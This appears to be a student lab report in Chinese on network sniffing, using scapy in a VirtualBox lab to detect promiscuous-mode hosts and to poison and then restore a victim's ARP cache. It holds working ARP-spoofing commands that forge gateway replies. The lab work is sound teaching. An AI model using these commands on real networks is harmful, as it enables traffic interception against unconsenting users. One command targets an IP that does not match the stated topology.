# 实验四 网络监听

## 实验环境

- `VirtualBox`

- `scapy`

### 网络拓扑

- 攻击者主机
    - 08:00:27:51:7f:8b / eth1
    - 172.16.222.100
- 受害者主机
    - 08:00:27:d5:c0:c3 / enp0s3
    - 172.16.222.124
- 网关
    - 08:00:27:57:53:5a / enp0s10
    - 172.16.222.1



### 安装scapy

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```





## 实验过程

### 实验一：检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s3
# 注意上述输出结果里应该没有出现 PROMISC 字符
```



```
# 在攻击者主机上开启scapy
sudo scapy
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.222.124")
```



```
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show enp0s3
```



```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("192.168.0.102")
```



```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

- 以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

```



```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
```



```
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.222.124
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.124", hwdst="08:00:27:51:7f:8b")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```



- 此时在受害者主机上查看 `ARP` 缓存会发现网关的 `MAC` 地址已被「替换」为攻击者主机的 `MAC`地址

```
ip neigh
# 172.16.222.100 dev enp0s3 lladdr 08:00:27:51:7f:8b STALE
# 172.16.222.1 dev enp0s3 lladdr 08:00:27:51:7f:8b REACHABLE
```



- 回到攻击者主机上的 scapy 交互式终端继续执行命令。

```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.222.1", hwsrc="08:00:27:57:53:5a", pdst="172.16.222.124", hwdst="08:00:27:d5:c0:c3")
sendp(restorepkt1, count=100, inter=0.2)
```



- 此时在受害者主机上准备“刷新”网关 ARP 记录。
```
## 在受害者主机上尝试 ping 网关
ping 172.16.222.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```



## 实验反思
1. `permissionerror`意为权限许可错误，可以尝试在命令前加sudo



2. 攻击者主机和受害者主机不在同一局域网下不会受到包


## 参考文献
[在线课本](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)